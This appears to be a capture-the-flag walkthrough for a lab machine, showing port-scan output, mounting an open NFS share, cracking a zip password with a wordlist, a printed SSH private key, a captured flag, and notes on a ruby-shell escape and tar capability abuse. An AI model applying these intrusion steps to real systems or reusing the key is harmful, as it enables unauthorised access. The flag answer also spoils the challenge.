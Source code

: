 Binding_of_cyber

./script.sh

(UNKNOWN) [10.10.142.181] 51 (?) open
550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄(UNKNOWN) [10.10.142.181] 52 (?) open
550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⣤⣴⣶⣶⣶⣶⣶⣶⣤⣄⣀⠄⠄⠄⠄⠄⠄⠄g⠄(UNKNOWN) [10.10.142.181] 53 (domain) open
550 12345 ⠄⠄⠄⠄⠄⢀⣠⣶⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣄⠄⠄⠄⠄o⠄(UNKNOWN) [10.10.142.181] 54 (?) open
550 12345 ⠄⠄⠄⢀⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣆⠄⠄⠄⠄(UNKNOWN) [10.10.142.181] 55 (?) open
550 12345 ⠄⠄⢀⣾⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⠄p⠄(UNKNOWN) [10.10.142.181] 56 (?) open
550 12345 ⠄⠄⣾⣿⡿⠟⡋⠉⠛⠻⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠛⠉⠉⠙⠻⣿⣿⣇o⠄(UNKNOWN) [10.10.142.181] 57 (?) open
550 12345 ⠄⢠⣿⡏⢰⣿⣿⡇⠄⠄⢸⣿⣿⣿⠿⠿⣿⣿⣿⠁⣾⣿⣷⠄⠄⠘⣿⣿r⠄(UNKNOWN) [10.10.142.181] 58 (?) open
550 12345 ⠄⠸⣿⣇⠈⠉⠉⠄⠄⢀⣼⡿⠋⠄⠄⠄⠄⠙⢿⣄⠙⠛⠁⠄⠄⢠⣿⣿t⠄(UNKNOWN) [10.10.142.181] 59 (?) open
550 12345 ⠄⠄⢿⣿⡇⠄⠄⠄⣶⣿⣿⢁⣤⣤⣤⣤⣤⣤⠄⣿⣷⠄⠄⠄⠈⢹⣿⡟⠄⠄(UNKNOWN) [10.10.142.181] 60 (?) open
550 12345 ⠄⠄⠈⢿⡗⠄⠄⢸⣿⣿⣿⣶⣶⣶⣶⣶⣶⣶⣶⣿⣿⠄⠄⠄⠄⢸⡟⠄2⠄(UNKNOWN) [10.10.142.181] 61 (?) open
550 12345 ⠄⠄⠄⠄⠳⡀⠄⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠄⠄⠄⠄⠌⠄⠄3⠄(UNKNOWN) [10.10.142.181] 62 (?) open
550 12345 ⠄⠄⠄⠄⠄⠄⠄⠈⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣤⠄⠄⠄⠄⠄⠄4⠄(UNKNOWN) [10.10.142.181] 63 (?) open
550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠉⠙⠻⠿⠿⣿⣿⣿⣿⠿⠿⠛⠉⠄⠄⠄⠄⠄⠄⠄5⠄(UNKNOWN) [10.10.142.181] 64 (?) open
550 12345 ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄6⠄(UNKNOWN) [10.10.142.181] 65 (?) open

└─$ nc 10.10.142.181 23456                 
It remember ! I put the flags in my chest, it's on a nfs share, how do i list them ? 

2049/tcp  open  nfs

└─$ showmount -e 10.10.142.181

Export list for 10.10.142.181:
/home/nfs *

└─$ sudo mount -t nfs 10.10.142.181:/home/nfs /tmp -nolock

└─$ fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u chest.zip 

PASSWORD FOUND!!!!: pw == isaaciscrazy

go in a directory where is have the correct right because the right of /tmp are weird now cause of the mount.

unzip -P "isaaciscrazy" /tmp/

cd /home/isaac/.ssh

cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
xa0G3rSKDYMAAAAKaGFkZXNAaGVsbAE=
-----END OPENSSH PRIVATE KEY-----

connect on ssh as isac

cat flag.txt : EPI{4ch13V3M3N7_7R0Phy_90lD3n_90d}

cat hint.txt : 5000-6500 (some ports obviously)

Escape from the ruby shell using system. Find that tar are setcapabilities set (found with linpeas)
